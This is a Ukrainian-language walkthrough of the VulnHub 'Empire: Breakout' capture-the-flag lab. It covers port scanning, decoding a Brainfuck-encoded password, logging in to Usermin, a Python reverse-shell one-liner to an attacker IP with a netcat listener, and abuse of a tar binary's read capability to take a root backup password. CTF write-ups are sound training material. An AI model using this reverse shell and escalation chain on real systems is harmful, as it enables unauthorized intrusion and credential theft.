






### **EMPIRE BREAKOUT: Проходження CTF від VulnHub**  


Мета цього **Capture the Flag (CTF)** – отримати root-доступ до цільової машини. Попередні вимоги – знання команд Linux і вміння використовувати базові інструменти для тестування на проникнення.  


🔗 **Завантажити CTF:**  
[https://download.vulnhub.com/empire/02-Breakout.zip](https://download.vulnhub.com/empire/02-Breakout.zip)  


---  

---

## **Етапи проходження CTF:**  

1. Отримати **IP-адресу цільової машини**, та просканувати **відкриті порти** за допомогою **nmap**.  
2. Дослідження **HTTP-порту 80** за допомогою **dirb**  
3. Дослідження іншого **HTTP-порту 20000**  
4. Отримання **реверс-шелу через Python** і **ескалація привілеїв**  

Маючи всю необхідну інформацію, давайте почнемо цей виклик! 🚀

## **Проходження CTF**  


### **Крок 1: Отримати IP-адресу цільової машини та просканувати відкриті порти за допомогою nmap**
Після завантаження та запуску віртуальної машини у **VirtualBox** першим кроком є визначення її IP-адреси та
сканування цільової машини на наявність **відкритих портів** та **запущених сервісів**. Для цього використовуємо командиу:

```bash
   sudo netdiscover -r 10.0.2.0/24
````

```sh
nmap -sV 10.0.2.x  
```  

**Отрумуємо наступний результат :**


## **Крок 2**  

### **Досліджуємо веб-сервер на порту 80**  

Щоб розпочати дослідження цільової машини, спробуємо отримати доступ до її **HTTP-сервісу** на **стандартному порту 80**. Для цього відкриваємо **IP-адресу** цільової машини у браузері.  

#### **Результат:**  
На екрані з’явилася **дефолтна сторінка Apache**, що свідчить про **активний веб-сервер**. Однак ми не знаємо, чи є там інші веб-додатки, тому потрібно знайти **вірний шлях** до них.  

---

### **Пошук директорій веб-додатка**  

Для цього використовуємо **інструмент перебору веб-директорій**. Один із найефективніших інструментів — *dirb**, який вже є у **Kali Linux**.  

**Команда для сканування:**  
```bash
dirb http://10.0.2.Х
```  

#### **Результат:**  
Ми виявили **каталог "manual"** на веб-сервері. Відкривши його в браузері, побачили **дефолтний сайт Apache**.  


#### **Знаходимо вразливість/приховану підказку**  

При перегляді **HTML-коду сторінки** ми знайшли цікавий коментар із **зашифрованими даними користувача**.  

**Виявлений зашифрований пароль:**  
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```  

#### **Аналіз коду:**  
- Ми дослідили використані символи та визначили, що це **Brainfuck** — мова програмування, яка може використовуватися для **кодування тексту**.  
- Використовуючи **онлайн-декодер Brainfuck**, ми розшифрували цей рядок.  


#### **Розшифрований пароль:**  
```
.2uqPEfj3D<P'a-3
```  

### **Висновок:**  
Ми отримали **відкритий пароль** з порту 80. Тепер переходимо до дослідження **порту 20000**, щоб знайти нові можливості для експлуатації цільової машини. 

## **Крок 3**  

**Дослідження HTTP-порту 20000**  

Ми відкрили **IP-адресу цільової машини** у браузері, використовуючи **порт 20000**.  

**Результат:**  
На цьому порту працює **панель адміністратора Usermin**.  
**Usermin** — це веб-інтерфейс для **віддаленого управління сервером Linux**.  

---

#### **Підбір імені користувача**  

 **Маємо пароль, але не знаємо ім'я користувача**  
Щоб знайти **відомі імена користувачів**, використовуємо **інструмент enum4linux**, який є у Kali Linux.  

**Команда для сканування:**  
```bash
enum4linux -a 10.0.2.Х
```  

#### **Результат:**  
Отримали **велику кількість інформації**, серед якої знайшли **користувача "cyber"**.  




**Перевірка авторизації**  

Маючи **ім'я користувача ("cyber") та пароль**, спробували **доступ через SSH**, але він не спрацював.  
Тоді ми увійшли через **веб-інтерфейс Usermin**, і це **спрацювало**!   



**Результат:**  
Ми потрапили в **адмін-панель Usermin**.  

---

#### **Отримання терміналу Usermin**  

 В Usermin є **опція доступу до веб-терміналу**.  
 Запустили команду `id`, яка підтвердила, що ми увійшли **під користувачем "cyber"**.  

 **Перевірили файли у поточному каталозі (`ls`)**  
 **Знайшли перший прапор ("user.txt")!**   

 

---

#### **Наступний крок:**  
Отримати **повний командний доступ** до цільової машини! �

## **Крок 4**  

#### **Отримання реверс-шелу**  

Маємо доступ до терміналу цільової машини. Тепер спробуємо отримати **реверс-шел** за допомогою спеціально створеного **Python-пейлоада**.  

**Пейлоад:**  
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```  

**Конфігурація `netcat` на машині атакуючого:**  
```bash
nc -lvp 1234
```  

**Результат:**  
Машина атакуючого успішно отримала **реверс-шел**!   
Тепер можемо досліджувати систему на наявність вразливостей.  



**Перевірка ОС та ядра**  

**Команди:**  
```bash
cat /etc/issue
uname -a
```  
**Результат:**  
Отримали інформацію про **версію операційної системи та ядра Linux**.  
Перевірили вразливості у відкритих базах, але не знайшли готових експлойтів.  

---

**Пошук бінарних файлів із підвищеними правами**  

**Команди:**  
```bash
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
```  
**Результат:**  
Виявили, що **cap_dac_read_search** дозволяє читати будь-які файли!  
Можемо використати це для перегляду захищених файлів у системі.  

**Спроба прочитати `/etc/shadow`**  
Пробували зламати хешовані паролі за допомогою **John the Ripper**, але безуспішно.  

**Пошук незашифрованого пароля**  

**Команда:**  
```bash
ls -la /var/backups/
```  
**Результат:**  
Знайшли **файл резервної копії паролів** (`.old_pass.bak`).  
Він доступний тільки для **root**, але можемо використати **tar** для обходу обмежень.  

---

**Зміна прав доступу та читання файлу паролів**  

🔹 **Команди:**  
```bash
./tar -cf password.tar /var/backups/.old_pass.bak
tar -xf password.tar
cat .old_pass.bak
```  
**Результат:**  
Пароль знайдено у **відкритому вигляді**!   

**Знайдений пароль:**  
```text
Ts&4&YurgtRX(=~h
```  

---

**Підвищення привілеїв до root**  

🔹 **Команда:**  
```bash
su root
```  
**Результат:**  
**Вхід під root виконано успішно!** 🎯  

🔹 **Читання фінального прапора:**  
```bash
cat /root/rOOt.txt
```  

 **Місія виконана! Ми успішно пройшли цей CTF-челендж!** 

